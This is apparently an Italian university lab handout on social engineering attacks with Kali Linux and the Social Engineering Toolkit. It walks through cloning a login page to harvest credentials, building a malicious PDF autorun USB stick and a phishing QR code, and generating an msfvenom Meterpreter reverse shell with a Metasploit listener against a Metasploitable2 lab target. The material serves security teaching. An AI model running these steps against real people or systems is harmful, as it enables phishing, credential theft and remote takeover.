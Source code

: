 ```yaml
---
layout: default
title: Attacchi di Ingegneria sociale
description: Prof.ssa Federica Paci
---
```

# Attacchi di Ingegneria Sociale

L'ingegneria sociale è una tecnica di manipolazione psicologica utilizzata per indurre le persone a divulgare informazioni confidenziali, eseguire azioni che compromettano la sicurezza o rivelare dati sensibili. Questa tecnica si basa sull'interazione umana e sfrutta la fiducia, la curiosità, la paura o l'ignoranza delle vittime per ottenere accesso a informazioni o sistemi protetti.

Per questa attivita' utilizzeremo la macchina **Kali Linux** e il **Social Engineering Tookit (SET)** installato sulla macchina Kali Linux. 
SET  offre una vasta gamma di funzionalità per simulare attacchi di ingegneria sociale e valutare la resilienza di individui e organizzazioni contro tali attacchi. 

Prima di condurre gli attacchi di ingegneria sociale utilizzando SET dobbiamo installare sulla macchina Kali Linux, due software **Mailhog** e **GoPhish**.

**Mailhog** è uno strumento di testing e sviluppo per le email. È un server SMTP simulato che cattura le email inviate dalle applicazioni in fase di sviluppo, consentendo agli sviluppatori di testare l'invio di email senza il rischio di inviare email reali a destinatari reali. MailHog fornisce un'interfaccia web semplice per visualizzare, cercare e gestire le email catturate.

**GoPhish** è uno strumento open source per la gestione e l'esecuzione di campagne di phishing simulato. È progettato per aiutare le organizzazioni a testare e migliorare la consapevolezza sulla sicurezza dei propri dipendenti. Con GoPhish, le organizzazioni possono creare e gestire campagne di phishing realistiche, monitorare le risposte dei destinatari e analizzare i risultati per identificare le aree in cui è necessario migliorare la formazione sulla sicurezza.

## Installazione Mailhog

Scaricate sulla macchina Kali Linux il file MailHog_linux_amd64 dal seguente url https://github.com/mailhog/MailHog/releases/v1.0.0.

Salvate il file MailHog_linux_amd64 sotto la cartella Desktop.

Aprite un terminale e digitate i seguenti comandi per dare permessi di esecuzione al file:

```
# chmod +x MailHog_linux_amd64
```
## Installazione GoPhish

Scaricate sulla macchina Kali Linux il file gophish-v0.12.1-linux-64bit.zip dal seguente url https://github.com/gophish/gophish/releases.

Estraete il file zip in una cartella sotto la cartella Desktop.
```
# chmod +x gophish
```
## Creare un sito di phishing per rubare credenziali


Eseguite il Social Engineering Toolkit dal menu principale della macchina Kali come illustrato nella figura qui sotto.

![image](set1.png)

Selezionate l’opzione 1) Social Engineering Attacks

![image](set2.png)

Selezionate l' opzione 2) Website Attack Vector

![image](set3.png)

Selezionate l’opzione 3) Credential Harvester Attack Method

![image](set4.png)

Selezionare l’opzione 2 Site Cloner 

Specificare come indirizzo IP quello della macchina Kali Linux

Specificare URL del sito da clonare. Il sito deve avere una form di login

![image](set5.png)

Aprite Firefox e visitate il sito web digitando localhost nella barra degli indirizzi del browser e inserite un’ indirizzo email e una password fasulli


## Creare Chiavetta USB infetta 

Dal menu' principale di SET selezionare l'opzione 3) Infectious Media Generator.

Poi Selezionare Opzione 1 – File Format Exploits

Specificare indirizzo IP della macchina Kali Linux 

Selezionare Opzione 13 – Adobe PDF Embedded Social Engineering

![image](usb1.png)

Selezionare Opzione 2 – Use built-in BLANK PDF for attack

Selezionare opzione 5 – Windows Meterpreter Reverse_TCP (x64)

Lasciare come indirizzo IP e porta di default

Copiare la cartella /root/.set/autorun su una chiavetta USB

![image](usb3.png)

## Creare un QRCode Malevolo 

Selezionare Opzione 8) QRCode Generator Attack Vector 

![image](qrcode1.png)

Specificare l'url del sito web di phishing a cui redirigere le potenziali vittime 

![image](qrcode2.png)

Aprite qrcode_attack.png con un QRCode scanner online e.g Web QR per vedere che il QRCode punta al sito malevolo

## Creare un payload malevolo con msfvenom 

**msfvenom** è uno strumento del framework Metasploit utilizzato per generare payload malevoli. Per creare un payload malevolo per Linux, seguiamo i seguenti passaggi.

Apri un terminale e digita il seguente comando:

```
# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP KALI VM> LPORT=<Porta> -f elf -o payload.elf
```
Spiegazione dei Parametri:

* -p linux/x86/meterpreter/reverse_tcp: Specifica il tipo di payload. In questo caso, stiamo utilizzando una reverse shell Meterpreter per Linux.
* LHOST=<IP KALI VM >: L'indirizzo IP della macchina che riceverà la connessione reverse shell. Nel nostro caso la macchina Kali Linux.
* LPORT=<Porta>: La porta sulla quale la tua macchina ascolterà la connessione reverse shell
* -f elf: Specifica il formato del payload. Per Linux, il formato ELF è comunemente usato.
* -o payload.elf: Specifica il nome del file di output che conterrà il payload.

Una volta generato il payload, è necessario configurare un listener sulla  macchina  Kali Linux per ricevere la connessione reverse shell. Questo può essere fatto utilizzando Metasploit:

```
# msfconsole
# use exploit/multi/handler
# set payload linux/x86/meterpreter/reverse_tcp
# set LHOST <IP>
# set LPORT <Porta>
# exploit
```
* use exploit/multi/handler: Seleziona il modulo handler per gestire la connessione incoming.
* set payload linux/x86/meterpreter/reverse_tcp: Specifica il tipo di payload che il listener si aspetta di ricevere.
* set LHOST <IP>: Configura l'indirizzo IP della macchina Kali.
* set LPORT <Porta>: Configura la porta sulla quale la tua macchina ascolterà.
* exploit: Avvia il listener.

Trasferisci il file payload.elf sulla macchina Metasploitable2  e rendilo eseguibile con il comando:

```
# chmod +x payload.elf
```
Esegui il payload sulla macchina target:

```
# ./payload.elf
```
Una volta eseguito il payload, dovrebbe stabilire una connessione con il listener configurato sulla macchina Kali Linux, permettendoti di ottenere una sessione Meterpreter sulla macchina Metasploitable2.

